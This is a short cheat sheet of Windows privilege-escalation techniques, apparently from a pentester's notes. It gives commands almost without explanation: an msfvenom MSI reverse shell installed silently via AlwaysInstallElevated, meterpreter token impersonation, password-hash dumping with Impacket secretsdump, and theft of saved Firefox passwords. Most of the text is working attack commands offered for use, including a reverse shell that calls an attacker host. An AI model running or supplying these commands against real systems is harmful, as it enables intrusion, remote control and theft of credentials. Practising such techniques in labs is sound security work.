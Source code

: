`reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer`

`reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer`

Then, `msfvenom -p windows/x64/shell_reverse_tcp LHOST=A<IP> LPORT=<port> -f msi -o malicious.msi`

```shell
Shell> msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi
```



### token impersonation

```powershell
PS C:\Users\bruce\Desktop> whoami /priv
```

check any of below tokens are enabled;

- SeImpersonatePrivilege
- SeAssignPrimaryPrivilege
- SeTcbPrivilege
- SeBackupPrivilege
- SeRestorePrivilege
- SeCreateTokenPrivilege
- SeLoadDriverPrivilege
- SeTakeOwnershipPrivilege
- SeDebugPrivilege

```bash
meterpreter > load incognito (or "use incognito")
meterpreter > list_tokens -g
meterpreter > impersonate_token "BUILTIN\Administrators"
```

Don't forget to migrate!



### Impacket

```bash
secretsdump.py <user>@<domain>
```

After obtain NT hashes, use **evil-winrm**



### Gather creds in firefox w/meterpreter

after get meterpreter shell, 

```bash
meterpreter> run post/multi/gather/firefox_creds
```

Change the file names to correct one... Ex. cert9.db, logins.json

Then, use [python script ](https://raw.githubusercontent.com/unode/firefox_decrypt/master/firefox_decrypt.py) 
